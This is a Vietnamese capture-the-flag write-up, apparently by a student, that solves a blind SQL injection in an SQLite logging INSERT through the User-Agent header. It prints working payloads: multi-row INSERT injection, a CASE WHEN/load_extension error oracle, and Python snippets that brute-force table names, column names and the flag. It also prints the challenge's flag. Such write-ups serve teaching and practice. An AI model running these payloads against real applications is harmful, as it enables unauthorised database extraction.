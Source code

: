 Link POC :

- Em test mãi trên burp mà kết quả lúc hiện Logged lúc không mà cú pháp em chắc chắn đúng rùi nên em chuyển qua viết POC đơn giản với python ạ

Đề bài đọc kĩ thì em thấy có một đoạn INSERT dữ liệu cho table logger như sau:
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('{ip_address}', '{user_agent}', 
                  '{referer}', '{url}', '{cookie}', '{created_at}')

Có vẻ như máy chủ sẽ lấy giá trị ip address,user_agent,referer,url,cookie,created_at của mình để insert log vào bảng này và nếu thành công sẽ trả ra Logged còn nếu sai sẽ Trả ra Error
+ Đầu tiên em nhận thấy các giá trị như user_agent,referer,cookie là dễ thay đổi nhất nên em sẽ chọn điểm inject đó là user_agent vì đoạn này có vẻ như ít check nhất em nghĩ là referer và cookie cũng được nhưng mà em chưa thử ạ:3

+ Đầu tiên em lợi dụng việc SQLite có cú pháp chèn nhiều bản ghi và dùng payload

                                        a',null,null,null,null), (null,'aaa
Lúc này câu lệnh sẽ trở thành
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('ip_address', 'a',             
                   null,null,null,null),(null,'aaa','referer', '{url}', '{cookie}', '{created_at}')
Và câu lệnh của em hợp lệ nên em sẽ nhận về Logged
![Alt text](image.png)

Tiếp sau đó em sử dụng payload 
                                        a',null,null,CASE WHEN 1=1 THEN NULL ELSE load_extension(1) END), (null,'aaa
- Payload này em lấy trên payload all thing theo như em tìm hiểu thì hàm load_extension(1) để raise error khi gặp lỗi ạ
- Em nhận được kết quả
![Alt text](image-1.png)
- còn nếu case 1=0 thì em sẽ nhận được Error
![Alt text](image-2.png)

sau đó em dùng payload:
              headers = {
             'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(tbl_name,1,{i}) FROM sqlite_master WHERE type='table' AND 
             tbl_name NOT LIKE 'sqlite_%' AND tbl_name != 'logger') = '{payload + char}' THEN NULL ELSE load_extension(1) END), 
              (null,'aaa"
               } 
để xác định tên của Table, em nhận được kết quả bằng cách brute force
![Alt text](image-3.png)
tên table là flag ạ
- Ban đầu em dùng payload sai tìm ra được 1 tên cột là CREATE em làm mãi không ra @@
- Sau đó em tìm ra rên payload all thing em có hàm PRAGMA_TABLE_INFO('table')
Sẽ trả ra một cột name là tên cột của table nên em dùng payload:
                                     headers = {
                                     'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(name,1,{i}) FROM 
                                    PRAGMA_TABLE_INFO('flag') LIMIT 2,1) = '{payload + 
                                    char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                                       }


- Ban đầu nếu để payload là LIMIT 0,1 thì em nhận được tên là id
![Alt text](image-4.png)
<em lười đổi đoạn tên cột nên vẫn để print table name ạ:v>

- Sau đó em để payload là LIMIT 1,1 thì em nhận được tên cột là secret
![Alt text](image-5.png)
Đoạn này em nghĩ đây chắc chắn chứa FLAG rồi nhưng mà em thêm LIMIT 2,1 nữa nhưng không có gì  @@

- Bây giờ thì em bờ rút FLAG với payload:

                     headers = {
                        'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(secret,1,{i}) FROM flag LIMIT 1) = '{payload + 
                           char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                     }

- Đợi gần 1 phút thì em được kết quả:
![Alt text](image-6.png)
FLAG : CHH{blInD_sqLi_1N_UPDATE}